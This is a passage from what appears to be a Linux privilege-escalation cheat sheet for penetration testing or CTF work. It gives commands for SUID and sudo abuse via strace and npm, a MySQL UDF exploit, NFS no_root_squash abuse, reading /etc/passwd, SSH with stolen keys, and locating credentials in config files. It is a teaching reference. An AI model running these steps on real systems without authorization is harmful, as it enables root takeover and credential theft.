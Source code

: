 | socat                                  |                                                                                     |
| script                                  |                                                                                     |
| ssh                                  |                                                                                     |
| zsh                                  |                                                                                     |
| tclsh                                  |                                                                                     |
| strace                                  |  Write and compile a a SUID SUID binary c++ program <br> strace chown root:root suid <br> strace chmod u+s suid <br> ./suid        |
| npm                                 |  ln -s /etc/shadow package.json && sudo /usr/bin/npm i *                            |
| rsync                                  |                                                                                     |
| tar                                  |                                                                                     |
|Screen-4.5.00     | <https://www.exploit-db.com/exploits/41154/>        |

*Note:* You can find an incredible list of Linux binaries that can lead to privledge escalation at the GTFOBins project website here:  
<https://gtfobins.github.io/>

Can I access services that are running as root on the local network?  
`netstat -antup`  
`ps -aux | grep root`  

| Network Services Running as Root      | Exploit actions                                                                     |
|---------------------------------------|-------------------------------------------------------------------------------------|
| mysql                                 | raptor_udf2 exploit<br> 0xdeadbeef.info/exploits/raptor_udf2.c <br> insert into foo values(load_file('/home/smeagol/raptor_udf2.so'));                   |
| apache            | drop a reverse shell script on to the webserver                                     |
| nfs             | no_root_squash parameter <br>  Or <br> if you create the same user name and matching user id as the remote share you can gain access to the files and write new files to the share  |
| PostgreSQL                            | <https://www.exploit-db.com/exploits/45184/>                                          |

Are there any active tmux sessions we can connect to?  
`tmux ls`  

## What can we READ?

What files and folders are in my home user's directory?  
`ls -la ~`  

Do any users have passwords stored in the passwd file?
`cat /etc/passwd`  

Are there passwords for other users or RSA keys for SSHing into the box?  
`ssh -i id_rsa root@10.10.10.10`  

Are there configuration files that contain credentials?

| Application and config file           | Config File Contents                                                                |
|---------------------------------------|-------------------------------------------------------------------------------------|
| WolfCMS <br> config.php               | // Database settings: <br> define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');<br> define('DB_USER', 'root');<br> define('DB_PASS', 'john@123');<br>        |
| Generic PHP Web App                   | define('DB_PASSWORD', 's3cret');                                                     |
| .ssh directory           | authorized_keys<br>id_rsa<br>id_rsa.keystore<br>id_rsa.pub<br>known_hosts            |
| User MySQL Info                 | .mysql_history<br>.my.cnf                     |
| User Bash History                  | .bash_history                                      |
